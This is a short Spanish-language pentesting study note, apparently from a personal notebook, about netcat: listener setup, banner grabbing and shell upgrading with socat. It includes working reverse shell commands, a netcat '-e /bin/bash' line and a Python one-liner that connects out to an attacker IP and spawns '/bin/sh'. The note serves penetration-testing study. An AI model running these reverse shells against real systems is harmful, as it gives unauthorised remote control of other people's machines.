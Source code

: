 tags: #comandos #informacion 

---

```bash
nc -lvnp 9999
```
```bash 
nc <ip-mia> 9999 -e /bin/bash
```

- si por lo que sea con los comandos anteriores no conseguimos una revert shell podemos usar este script de python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.109",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Utilidad de redpara interactuar con puertos TCP/UDP. Se puede usar para muchas cosas durante una prueba de penetración.
Su uso principal es para conectares a shells.
Además de eso, se puede usar para conectarse a cualquier puerto de escucha e interactuar con el servicio que se ejecuta en ese puerto. Por ejemplo, enviar todos los datos a un puerto concreto.

```bash
netcat <ip> <puerto>
```

Si ejecutamos ese comando a un puerto valido este nos enviara su banner indicándonos que esta corriendo por ahí.
![[netcatBanner.png]]

a esto se le denomina Banner Grabbin.

Otra Herramienta similar seria Socat.(tambien usada para upgradear una shell a una full TTY)
[[Upgrading Simple Shells to Fully Interactive TTYs - ropnop blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat)]
